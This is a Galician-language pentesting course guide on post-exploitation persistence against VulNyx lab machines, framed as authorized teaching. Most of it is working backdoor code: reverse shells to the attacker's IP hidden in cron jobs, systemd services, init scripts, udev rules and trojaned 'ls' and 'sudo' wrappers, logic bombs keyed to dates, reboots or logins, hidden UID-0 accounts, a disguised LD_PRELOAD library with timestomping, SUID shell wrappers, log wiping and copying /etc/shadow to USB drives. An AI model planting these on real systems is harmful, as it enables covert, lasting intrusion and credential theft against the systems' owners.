





Fase 5. Persistencia - Máquinas VulNyx Low Linux
Nota de seguridade: Usar exclusivamente en contextos autorizados de pentesting.
Recomendacións
- Non actualizar os paquetes da máquina (podería romper vectores de ataque).
- Traballar sempre nunha rede illada (host-only).
1. Introdución e Preparación
Obxectivo
Realizar nun test de intrusión a Fase 5. Persistencia sobre as máquinas Vulnyx Low Linux da UD2 de HE.
Pasos básicos
- Descargar unha máquina(OVA) dende VulNyx, por exemplo: Basic

- Comprobar o hash
-
Descomprimir e importar a OVA en VirtualBox. Asegurarse que na configuración de rede o Adaptador 1 esté en modo Só anfitrión (Host-only)

-
Iniciar a máquina.
- Configurar en VirtualBox unha máquina Kali Linux coa rede en modo Só anfitrión (Host‑only).

- Arrancar a máquina Kali Linux:
- Identificar a IP (
netdiscoverouarp-scanounmap) e realizar escaneo connmap. - Detectar vulnerabilidades en servizos como SSH, Apache ou CUPS.
- Explorar un vector de ataque (CUPS).
- Establecer persistencia e recoller información do sistema.
- Identificar a IP (
- Elaborar un informe final coas evidencias obtidas.
Fases dun test de intrusión (Pentest)

2. Bloque I: Persistencia en Conexións e Shells
Prerrequisito
Realizar o procedemento descrito no documento Basic
Opción 1: Reverse shell simple (/etc/profile)
IP da máquina Kali Linux
No caso de execución deste procedemento a IP da máquina Kali Linux foi 192.168.56.53 e o da máquina víctima foi 192.168.56.74, pero no voso caso pode variar. Tédeo en conta para o seguimento desta práctica.
Dentro da consola de root conseguida con env executar:
E noutra consola en Kali Linux executar:

Agora reiniciar a máquina de vulnyx. Podemos executar o comando /sbin/init 6 na consola.
Unha vez reiniciada a máquina vulnhub ao iniciar sesión co usuario dimitri o arquivo /etc/profile cargarase e abrirase a reverse shell que temos á espera na Kali Linux:

Opción 2 - Clave SSH persistente
Esta técnica establece acceso remoto permanente mediante claves SSH, permitindo conexións directas sen necesidade de explotación adicional.
Na máquina Kali Linux, xerar un par de claves SSH:
Copiar a clave pública xerada:
Na máquina comprometida, como root, engadir a clave ao usuario root ou a calquera usuario:
mkdir -p /root/.ssh
chmod 700 /root/.ssh
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC...' >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
Para un usuario normal con privilexios sudo:
mkdir -p /home/sysadmin/.ssh
chmod 700 /home/sysadmin/.ssh
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC...' >> /home/sysadmin/.ssh/authorized_keys
chmod 600 /home/sysadmin/.ssh/authorized_keys
chown -R sysadmin:sysadmin /home/sysadmin/.ssh
Asegurarse de que o servizo SSH está habilitado e aceptará conexións con clave:
systemctl enable ssh
systemctl start ssh
sed -i 's/#PubkeyAuthentication yes/PubkeyAuthentication yes/' /etc/ssh/sshd_config
systemctl restart ssh
Agora, dende Kali Linux, conectar directamente:
Esta técnica proporciona acceso limpo, cifrado e persistente sen necesidade de reverse shells ou tarefas programadas visibles.
3. Bloque II: Persistencia en Usuarios e Credenciais
Opción 3 - Engadir usuario permanente e ademais facelo root
Dentro da consola de root conseguida con env executar:
useradd -m pentester -o -u 0 -g 0
passwd pentester
sed -i 's|!||' /etc/shadow
su - pentester
whoami
script /dev/null -c bash

Opción 4 - Modificación de arquivo /etc/passwd
Esta técnica crea unha entrada directa no arquivo /etc/passwd cunha conta sen contrasinal ou con hash coñecido, proporcionando acceso root inmediato.
Na máquina comprometida como root:
Variante 1:
Crear un usuario con UID 0 sen contrasinal:
Agora podemos facer login sen contrasinal:
Variante 2:
Modificar un usuario existente que raramente se use:
# Buscar usuarios do sistema con UID alto
grep -E ':[0-9]{3,}:' /etc/passwd | tail -5
# Modificar un usuario existente para darlle privilexios root
sed -i 's/^nobody:x:65534:65534:/nobody:x:0:0:/' /etc/passwd
Agora podemos facer login como nobody con privilexios root:
Esta técnica require acceso root previo para modificar /etc/passwd, pero proporciona unha backdoor moi directa e persistente. É importante notar que en sistemas modernos con SELinux ou AppArmor habilitado, estas modificacións poden ser detectadas ou bloqueadas.
Opción 5 - Privilexios sudo sen contrasinal (visudo NOPASSWD)
Esta técnica permite a un usuario executar comandos como root sen necesidade de contrasinal, establecendo persistencia mediante privilexios sudo.
Prerrequisito
Ter instalado o paquete sudo:
$ dpkg -l sudo
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Nome Versión Architecture Descrición
+++-==============-==================-============-=======================================================
ii sudo 1.9.13p3-1+deb12u1 amd64 Provide limited super user privileges to specific users
1. Identificar o paquete exacto que precisa
sudo na máquina víctima:$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
$ uname -m
x86_64
sudo na máquina atacante(kali) dende o snapshot oficial (neste caso Debian11):
wget https://snapshot.debian.org/archive/debian-security/20250630T180401Z/pool/updates/main/s/sudo/sudo_1.9.5p2-3%2Bdeb11u2_amd64.deb
deb de sudo á máquina víctima ao $HOME do usuario comprometido:4. Instalar o paquete co usuario
root (previamente comprometido).
Nota Importante
Para instalar o paquete, é necesario ter unha consola root cun TTY consistente. Podes empregar o método da Opción 3 para logralo.
Na máquina comprometida, como root con TTY interactiva:
-
Primeiro, creamos un usuario normal que pasa desapercibido:
-
Despois, configuramos
sudopara que este usuario poida executar calquera comando sen contrasinal:
Opción A:
Opción B:echo 'sysadmin ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers.d/sysadmin chmod 440 /etc/sudoers.d/sysadmin
Ou editando directamente con visudo (máis seguro): E engadir ao final do arquivo: -
Agora podemos verificar o acceso dende a shell do usuario comprometido para acceder ao novo usuario
sysadminsen contrasinal e da aí facernosrootmediantesudo:
Esta técnica é especialmente útil porque non require modificar usuarios existentes e permite manter acceso privilexiado de forma máis discreta. O usuario pode executar sudo su - ou sudo bash para obter unha shell root inmediatamente.
4. Bloque III: Automatización e Eventos (Triggers)
Opción 6 - Tarefa programada (Cron Job)
Esta técnica establece unha conexión automática cada 5 minutos mediante un cron job que executa unha reverse shell.
Primeiro, na máquina Kali Linux, deixar un listener á escoita:
Variante 1:
Na máquina comprometida, como root, crear unha tarefa cron:
Variante 2:
Ou crear un ficheiro directamente no directorio cron.d:
echo '*/5 * * * * root bash -c "bash -i >& /dev/tcp/192.168.56.53/5555 0>&1"' >> /etc/cron.d/persist
chmod 644 /etc/cron.d/persist
Variante 3:
Para facer a conexión máis silenciosa, podemos crear un script en /usr/local/bin/:
echo '#!/bin/bash
bash -i >& /dev/tcp/192.168.56.53/5555 0>&1' > /usr/local/bin/system-update
chmod +x /usr/local/bin/system-update
echo '*/5 * * * * root /usr/local/bin/system-update' >> /etc/crontab
Variante 4: Bombas Lóxicas (Triggers)
Bomba lóxica baseada en data: Esta técnica establece código malicioso que se activa automaticamente nunha data específica.
Opción A: Crear un script que se active nunha data específica.
Nota: Reordenáronse os comandos para asegurar a persistencia (useradd) antes de lanzar a shell bloqueante.
cat << 'EOF' > /usr/local/bin/system-maintenance
#!/bin/bash
# Data obxectivo: 25 de decembro de 2025
TARGET_DATE="2025-12-25"
CURRENT_DATE=$(date +%Y-%m-%d)
if [ "$CURRENT_DATE" == "$TARGET_DATE" ]; then
# 1. PRIORITY: Crear usuario backdoor primeiro
# (Descomenta para activar)
# useradd -m -o -u 0 -g 0 santa 2>/dev/null
# echo "santa:HoHoHo123" | chpasswd
# 2. Limpar logs
# > /var/log/auth.log
# > /var/log/syslog
# 3. FINALMENTE: Activar payload (bloqueante)
bash -c 'bash -i >& /dev/tcp/192.168.56.53/5555 0>&1'
fi
# Comportamento normal para non levantar sospeitas
echo "System maintenance check completed"
exit 0
EOF
chmod +x /usr/local/bin/system-maintenance
Opción B: Crear un script que se active con múltiples condicións (data e hora específica):
cat << 'EOF' > /etc/cron.d/backup-scheduler
#!/bin/bash
TARGET_DATE="2025-12-31"
TARGET_HOUR="23"
CURRENT_DATE=$(date +%Y-%m-%d)
CURRENT_HOUR=$(date +%H)
if [ "$CURRENT_DATE" == "$TARGET_DATE" ] && [ "$CURRENT_HOUR" == "$TARGET_HOUR" ]; then
# Payload de fin de ano
bash -c 'bash -i >& /dev/tcp/192.168.56.53/5555 0>&1' &
# Engadir un usuario backdoor ao ficheiro /etc/passwd real
echo "backdoor::0:0:System Backup:/root:/bin/bash" >> /etc/passwd
fi
EOF
Opción C: Script que se activa despois de certo tempo (30 días):
cat << 'EOF' > /usr/local/bin/delayed-payload
#!/bin/bash
TRIGGER_FILE="/var/.trigger_date"
# Se non existe o arquivo, crealo coa data actual
if [ ! -f "$TRIGGER_FILE" ]; then
date +%s > "$TRIGGER_FILE"
exit 0
fi
# Ler a data de activación
START_DATE=$(cat "$TRIGGER_FILE")
CURRENT_DATE=$(date +%s)
DIFF_DAYS=$(( ($CURRENT_DATE - $START_DATE) / 86400 ))
# Activar despois de 30 días
if [ $DIFF_DAYS -ge 30 ]; then
# Payload
bash -c 'bash -i >& /dev/tcp/192.168.56.53/5555 0>&1' &
# Eliminar o trigger para non executar de novo
rm -f "$TRIGGER_FILE"
fi
EOF
chmod +x /usr/local/bin/delayed-payload
echo '0 */6 * * * root /usr/local/bin/delayed-payload' >> /etc/crontab
Opción D: Script baseado no número de reinicios do sistema.
Nota: Versión mellorada con cabeceira LSB e uso de update-rc.d.
cat << 'EOF' > /etc/init.d/boot-counter
#!/bin/bash
### BEGIN INIT INFO
# Provides: boot-counter
# Required-Start: $all
# Required-Stop:
# Default-Start: 2 3 4 5
# Default-Stop: 0 1 6
# Short-Description: Conta reinicios para persistencia
### END INIT INFO
COUNTER_FILE="/var/.boot_count"
TRIGGER_COUNT=3 # 3 reinicios
# Crear contador se non existe
if [ ! -f "$COUNTER_FILE" ]; then
echo "0" > "$COUNTER_FILE"
fi
# Ler e incrementar
COUNT=$(cat "$COUNTER_FILE")
COUNT=$((COUNT + 1))
echo $COUNT > "$COUNTER_FILE"
# Comprobar se chegamos ao obxectivo
if [ $COUNT -ge $TRIGGER_COUNT ]; then
# Lanzar a shell en segundo plano
bash -c 'bash -i >& /dev/tcp/192.168.56.53/5555 0>&1' &
fi
EOF
# 1. Dar permisos de execución (IMPRESCINDIBLE)
chmod +x /etc/init.d/boot-counter
# 2. Habilitar script no arranque
update-rc.d boot-counter defaults
Variante 5: Eventos do sistema
Bomba lóxica baseada en eventos: Esta técnica activa código malicioso cando se cumpren certas condicións ou eventos específicos do sistema.
Opción A: Activación ao login dun usuario específico:
cat << 'EOF' > /etc/profile.d/user-monitor.sh
#!/bin/bash
# Activar cando o usuario "admin" faga login
if [ "$USER" == "admin" ]; then
bash -c 'bash -i >& /dev/tcp/192.168.56.53/5555 0>&1' &
fi
# Ou activar cando o usuario dimitri faga logout
trap 'bash -c "bash -i >& /dev/tcp/192.168.56.53/5555 0>&1" &' EXIT
EOF
chmod +x /etc/profile.d/user-monitor.sh
Opción B: Activación cando se elimina un arquivo "canario":
Arquivo canario 🐤
Un arquivo canario (canary file) é un ficheiro que se usa como sistema de detección de intrusións ou manipulacións no sistema. É como deixar un "fío trampa" que alerta cando alguén pasa por alí!
# Crear arquivo canario
touch /tmp/.keepalive
cat << 'EOF' > /usr/local/bin/canary-check
#!/bin/bash
# Se o arquivo canario non existe, activar payload
if [ ! -f "/tmp/.keepalive" ]; then
# O administrador está a investigar, activar evacuación
bash -c 'bash -i >& /dev/tcp/192.168.56.53/5555 0>&1' &
# Crear usuario de emerxencia
useradd -m -o -u 0 emergency 2>/dev/null
echo "emergency:Emerg123" | chpasswd
# Limpar rastros
history -c
> ~/.bash_history
fi
EOF
chmod +x /usr/local/bin/canary-check
echo '*/5 * * * * root /usr/local/bin/canary-check' >> /etc/crontab
Opción C: Activación segundo carga do sistema.
Nota: Usamos LC_ALL=C para evitar erros con decimais/comas.
cat << 'EOF' > /usr/local/bin/load-trigger
#!/bin/bash
# Usamos LC_ALL=C para obter a saída en inglés estándar e evitar erros
# de idioma ou formato numérico.
LOAD=$(LC_ALL=C uptime | awk -F'load average:' '{print $2}' | awk '{print $2}' | cut -d',' -f1)
LOAD_INT=$(echo "$LOAD" | cut -d'.' -f1)
# Activar se a carga é menor que 1 (máquina inactiva)
if [ "$LOAD_INT" -lt 1 ]; then
bash -c 'bash -i >& /dev/tcp/192.168.56.53/5555 0>&1' &
fi
EOF
chmod +x /usr/local/bin/load-trigger
echo '*/10 * * * * root /usr/local/bin/load-trigger' >> /etc/crontab
Opción D: Activación cando se monta un USB ou dispositivo externo.
Nota: Usamos lsblk para identificar correctamente o punto de montaxe e evitar erros con /dev/sda.
cat << 'EOF' > /etc/udev/rules.d/99-usb-trigger.rules
# Regra que se activa ao conectar un USB
ACTION=="add", SUBSYSTEM=="usb", RUN+="/usr/local/bin/usb-payload"
EOF
cat << 'EOF' > /usr/local/bin/usb-payload
#!/bin/bash
# Esperamos uns segundos para dar tempo a que o sistema ou o usuario monte o volume
sleep 5
# SOLUCIÓN ROBUSTA: Usar lsblk para filtrar só USBs montados
USB_MOUNT=$(lsblk -rpo "TRAN,MOUNTPOINT" | grep '^usb' | awk '$2!="" {print $2}' | head -1)
# Se atopamos un USB montado...
if [ ! -z "$USB_MOUNT" ]; then
# 1. Rexistrar evento
echo "$(date): USB device detected at $USB_MOUNT" >> /var/log/usb-events.log
# 2. Copiar datos (Exfiltración)
cp /etc/shadow "$USB_MOUNT/.shadow_backup" 2>/dev/null
cp /etc/passwd "$USB_MOUNT/.passwd_backup" 2>/dev/null
# 3. Activar Reverse Shell (opcional)
bash -c 'bash -i >& /dev/tcp/192.168.56.53/9999 0>&1' &
fi
EOF
chmod +x /usr/local/bin/usb-payload
udevadm control --reload-rules
Opción E: Activación ao detectar conexión SSH de IP específica:
cat << 'EOF' > /usr/local/bin/ssh-monitor
#!/bin/bash
# Monitorizar conexións SSH
SUSPICIOUS_IP="192.168.56.100"
# Revisar últimas conexións SSH
if grep -q "$SUSPICIOUS_IP" /var/log/auth.log; then
bash -c 'bash -i >& /dev/tcp/192.168.56.53/5555 0>&1' &
fi
EOF
chmod +x /usr/local/bin/ssh-monitor
echo '*/2 * * * * root /usr/local/bin/ssh-monitor' >> /etc/crontab
Opción F: Activación cando un proceso específico non se está executando:
cat << 'EOF' > /usr/local/bin/process-trigger
#!/bin/bash
# Verificar se o proceso de monitorización está activo
if ! pgrep -x "monitoring_daemon" > /dev/null; then
bash -c 'bash -i >& /dev/tcp/192.168.56.53/5555 0>&1' &
fi
EOF
chmod +x /usr/local/bin/process-trigger
echo '*/3 * * * * root /usr/local/bin/process-trigger' >> /etc/crontab
Opción 7 - Backdoor en servizo systemd
Esta técnica crea un servizo systemd personalizado que establece unha reverse shell ao inicio do sistema, mantendo persistencia despois de cada reinicio.
Na máquina Kali Linux, deixar un listener á escoita:
Na máquina comprometida, como root, crear un ficheiro de servizo systemd:
cat << 'EOF' > /etc/systemd/system/system-monitor.service
[Unit]
Description=System Monitoring Service
After=network.target
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.53/6666 0>&1'
Restart=on-failure
RestartSec=30
[Install]
WantedBy=multi-user.target
EOF
Habilitar e iniciar o servizo:
systemctl daemon-reload
systemctl enable system-monitor.service
systemctl start system-monitor.service
Verificar o estado do servizo:
Agora, cada vez que se inicie o sistema, o servizo systemd executarase automaticamente e establecerá a reverse shell. A vantaxe desta técnica é que:
- Execútase automaticamente ao inicio do sistema
- Reinténtase cada 30 segundos se falla a conexión
- Aparece como un servizo lexítimo do sistema
- Persiste a través de reinicios
5. Bloque IV: Persistencia en Binarios e Entorno
Opción 8 - Modificación do PATH
Esta técnica modifica a variable de entorno PATH para que o sistema execute binarios maliciosos en lugar dos lexítimos, establecendo persistencia de forma discreta.
Na máquina Kali Linux, deixar un listener:
Primeiro, na máquina comprometida, como root, crear un directorio para os nosos binarios maliciosos:
OPCIÓN A:
Crear un binario malicioso que suplante un comando común como ls:
cat << 'EOF' > /opt/.hidden/ls
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.53/7777 0>&1 &
/bin/ls "$@"
EOF
chmod +x /opt/.hidden/ls
Modificar o PATH global para que se consulte primeiro o noso directorio:
Variante 1:
Variante 2:
OPCIÓN B: Crear outros binarios maliciosos para comandos frecuentes:
cat << 'EOF' > /opt/.hidden/sudo
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/192.168.56.53/7777 0>&1' &
/usr/bin/sudo "$@"
EOF
chmod +x /opt/.hidden/sudo
Agora, cada vez que o usuario execute comandos como ls ou sudo, activarase unha reverse shell mentres o comando real tamén se executa, facendo que pase desapercibido.
Opción 9 - Biblioteca compartida maliciosa (LD_PRELOAD) - Estabilizada
Esta técnica inxecta código malicioso mediante bibliotecas compartidas. Esta versión inclúe protección anti-recursión e desacoplamento (setsid) para evitar colgar o sistema ou mostrar erros na consola.
Almacenaremos a librería nunha ruta do sistema (/usr/lib) cun nome enganoso para evitar a súa detección e borrado.
Requisitos: Acceso Root na máquina vítima.
Paso 1: Crear o código malicioso (C) Mellorado
/* Gardar como system_update.c */
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
void __attribute__((constructor)) init() {
/* PROTECCIÓN ANTI-RECURSIÓN E ANTI-BUCLE */
if (getenv("SYS_UPDATE_ACTIVE")) {
return;
}
/* Limpamos LD_PRELOAD para o fillo */
unsetenv("LD_PRELOAD");
setenv("SYS_UPDATE_ACTIVE", "1", 1);
/* Facemos fork para executar en segundo plano */
pid_t pid = fork();
if (pid == 0) {
/* PROCESO FILLO (Malicioso) */
/* 1. setsid(): Crea unha nova sesión para desvincularse da terminal actual. */
setsid();
/* 2. Rediriximos stdin/stdout/stderr a /dev/null temporalmente */
freopen("/dev/null", "r", stdin);
freopen("/dev/null", "w", stdout);
freopen("/dev/null", "w", stderr);
/* 3. Executamos a reverse shell */
/* IMPORTANTE: Cambia a IP (192.168.56.53) e PORTO (8888) pola túa Kali */
execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/192.168.56.53/8888 0>&1", NULL);
exit(0);
}
}
Paso 2: Compilación
-
Na máquina Vítima:
-
Na máquina Kali (se a vítima non ten gcc):
(Despois subir# Para vítima 64 bits (Debian 11 estándar) gcc -fPIC -shared -o system_update.so system_update.c -nostartfiles # Para vítima 32 bits gcc -m32 -fPIC -shared -o system_update.so system_update.c -nostartfilessystem_update.soá vítima).
Paso 3: Instalación e Camuflaxe
Na máquina vítima (como root):
# 1. Mover a unha ruta persistente cun nome lexítimo
mv /tmp/system_update.so /usr/lib/libsystemd-agent.so
# 2. Axustar permisos (root propietario, lexible por todos, non escribible)
chown root:root /usr/lib/libsystemd-agent.so
chmod 644 /usr/lib/libsystemd-agent.so
# 3. (Opcional) Timestomping: Copiar a data de sudoers
touch -r /usr/lib/sudo/sudoers.so /usr/lib/libsystemd-agent.so
Paso 4: Activación da Persistencia
Opción A: Persistencia por Usuario (Recomendada):
echo 'export LD_PRELOAD=/usr/lib/libsystemd-agent.so' >> /root/.bashrc
# Ou para usuario normal:
echo 'export LD_PRELOAD=/usr/lib/libsystemd-agent.so' >> /home/dimitri/.bashrc
Opción B: Persistencia Global (/etc/ld.so.preload):
Alto Risco
Executa a shell con CADA comando do sistema. Asegúrate de que o código C está ben compilado.
Opción 10 - Capabilities en binarios (Método Python)
Esta técnica usa capabilities de Linux. Como os binarios estándar como bash adoitan limpar privilexios ao arrincar, usaremos unha copia do intérprete de Python, que obedece ás capabilities sen restricións.
Na máquina comprometida, como root:
# 1. Facemos unha copia do intérprete de Python (para non tocar o orixinal)
cp /usr/bin/python3 /tmp/python_cap
# 2. Asignamos a capability 'cap_setuid' (permite cambiar o UID)
setcap cap_setuid+ep /tmp/python_cap
# 3. Verificamos que se aplicou correctamente
getcap /tmp/python_cap
# Saída: /tmp/python_cap cap_setuid=ep
Execución (como usuario normal dimitri):
O usuario pode agora usar ese python especial para facerse root e lanzar unha shell:
# de root.
Opción 11 - Binario SUID malicioso (Wrapper Estático)
Debian 11 e versións modernas de Bash baixan os privilexios automaticamente se detectan que o binario é SUID. Para evitalo, usaremos un wrapper en C compilado estaticamente.
Problema de Versións (GLIBC)
Se compilamos en Kali sen opcións especiais, o binario fallará na vítima. Usaremos -static para solucionalo.
Paso 1: Na máquina Kali (Atacante) Creamos o código e compilamos estáticamente.
cat << 'EOF' > suid_wrapper.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
/* Forzamos que o ID Real e Efectivo sexan 0 (root) */
setuid(0);
setgid(0);
system("/bin/bash");
return 0;
}
EOF
# Compilar de forma ESTÁTICA
gcc -static suid_wrapper.c -o sys-backup
Paso 2: Instalación na Vítima
Sube o ficheiro sys-backup á máquina vítima e colócao en /usr/bin.
Na máquina vítima (como root):
Execución (como usuario normal):
Opción 12 - Binario SGID malicioso (Wrapper Estático)
Esta técnica é idéntica á anterior pero enfocada a obter acceso a un grupo privilexiado (como shadow) usando setregid para evitar que Bash elimine os permisos.
Paso 1: Na máquina Kali (Atacante)
cat << 'EOF' > sgid_wrapper.c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
int main() {
/* 1. Obtemos o GID Efectivo (shadow) */
gid_t sgid = getegid();
/* 2. A CLAVE: setregid (Real, Efectivo)
Establecemos AMBOS ao grupo do ficheiro para que Bash non se queixe. */
setregid(sgid, sgid);
system("/bin/bash");
return 0;
}
EOF
# Compilar de forma ESTÁTICA
gcc -static sgid_wrapper.c -o read-shadow
Paso 2: Instalación na Vítima
Sube o ficheiro read-shadow á máquina vítima.
Na máquina vítima (como root):
mv read-shadow /usr/bin/read-shadow
chown root:shadow /usr/bin/read-shadow
chmod 2755 /usr/bin/read-shadow
Execución (como usuario normal):
Conclusión
Estas técnicas de persistencia permiten manter acceso á máquina comprometida a través de diferentes métodos, cada un con vantaxes específicas segundo o contexto do pentest. É importante documentar todos os métodos usados e eliminalos ao finalizar as probas autorizadas.